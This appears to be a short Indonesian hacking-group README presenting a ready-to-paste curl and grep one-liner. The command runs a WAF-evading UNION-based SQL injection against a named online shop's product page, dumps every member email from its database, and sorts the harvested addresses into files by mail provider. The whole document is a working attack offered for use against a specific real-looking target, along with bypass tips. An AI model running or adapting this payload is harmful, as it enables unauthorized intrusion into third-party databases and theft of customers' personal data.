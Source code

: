 # Extract-data-with-SQLi (curl & grep)

PERTAMA :.
Inject manual seperti biasa dengan dios yg uda nampilin all email

Langsung replace dengan target yg uda didios mode dump data ya

Paste di terminal bungurasih ya :v

```
curl --silent "http://m.sweetyboutique.com/product-detail.php?id=13584+and+0+/*"\!"00000UNION*/+SELECT+1,(select(@x)from(select(@x:=0x00),(select(0)from(tmember)where(@x:=/*"\!"00000concat*/(@x,0x3c62723e,email))))x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21--+" >> tmp;grep -o '[[:alnum:]+\.\_\-]*@[[:alnum:]+\.\_\-]*' "tmp" | sort | uniq -i > list;echo "";echo "Total Dumped : `wc -l list`";for i in gmail yahoo aol hotmail;do cat list | grep $i > $i.txt;echo "[+] `wc -l $i.txt`";done;cat list | grep -v gmail | grep -v yahoo | grep -v aol | grep -v hotmail > others.txt;echo "[+] others : `wc -l others.txt`";rm tmp;

```

NB (penting) : 
klo utk smisal ada waf yg perlu pake /*! Comment */
Tanda ! Harus diginiin "\!" ya

Result :

Lgsg berbentuk txt sort by kandang (gmail,aol,dll)

Keep simple 

Versailles ~ Cans21

Sec7or Team - Surabaya Hacker Link
